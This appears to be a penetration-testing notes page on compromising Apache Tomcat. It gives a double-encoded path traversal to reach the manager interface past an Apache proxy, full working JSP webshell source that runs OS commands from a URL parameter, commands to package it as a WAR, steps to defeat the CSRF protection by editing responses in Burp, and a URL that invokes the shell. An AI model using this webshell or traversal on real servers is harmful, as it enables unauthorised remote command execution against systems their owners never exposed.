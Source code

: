 # Tomcat

## Tomcat

JSP or servlet

### Bypass apache proxy

`/examples/jsp/%252e%252e/%252e%252e/manager/html`

### JSP webshell

```text
<FORM METHOD=GET ACTION='test.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

#### Create a war archive

```csharp
mkdir test
mv test.jsp test
cd test

/usr/lib/jvm/java-14-openjdk/bin/./jar -cvf ../test.war *

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=lcd
added manifest
adding: index.jsp(in = 579) (out= 351)(deflated 39%)
                                                            
```

### Bypass CSRF 

### Tomcat7 is using a CSRF protection in upload field

Upload the file and click on deploy and capture the request .

#### Modify the path 

`jsp/%252e%252e/manager/htm/`

![](../../.gitbook/assets/image%20%28229%29.png)

#### Capture the response in burp

![](../../.gitbook/assets/image%20%28159%29.png)

#### 

#### Modify the CSRF protection path \( / instead of /manager\) in the server response

* refresh the manager page to get the token



![](../../.gitbook/assets/image%20%28248%29.png)

* Modify the response

![](../../.gitbook/assets/image%20%28225%29.png)

```text
Set-Cookie: JSESSIONID=62FC9D661A6E815FCC2FE73B5B8DA686; Path=/; HttpOnly
```

* Modify the DOM path for Deploy

![](../../.gitbook/assets/image%20%2846%29.png)

### Access the webshell

```text
examples//%252e%252e/test/index.jsp?cmd=id
```

![](../../.gitbook/assets/image%20%28278%29.png)

